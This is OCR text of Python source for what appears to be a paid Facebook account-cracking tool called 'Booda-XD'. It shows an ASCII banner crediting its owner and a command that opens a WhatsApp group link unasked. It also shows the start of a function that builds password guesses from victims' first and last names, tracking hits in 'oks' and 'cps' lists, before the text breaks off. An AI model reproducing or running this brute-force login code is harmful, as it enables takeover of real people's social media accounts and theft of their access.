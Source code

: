     #    #     #  ####  # #    #  #### 

\033[1;32m+=========================================================+

|   Owner        :   PRINCE BOODA

|   Facebook     :   PRINCE BOODA

|   Telegram     :  @BOODA

|   Tools        :     Paid

|   Versino      :     1.1.3

+=========================================================+""")

os.system('xdg-open https://chat.whatsapp.com/Ib0yl9ApFmG6MVCYZbptZq ')

def linex():

        print('\033[1;32m----------------------------------------------')

def clear():

        os.system('clear')

        print(logo)

loop=0

oks=[]

cps=[]

pcp=[]

id=[]

tokenku=[]

def Booda1(ids,names,passlist):

        global loop,oks,cps

        sys.stdout.write('\r\r\033[1;32m [Booda-XD-\033[1;33mM1\033[1;32m] %s|\033[1;32mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()

        session = requests.Session()

        try:

                first = names.split(' ')[0]

                try:

                        last = names.split(' ')[1]

                except:
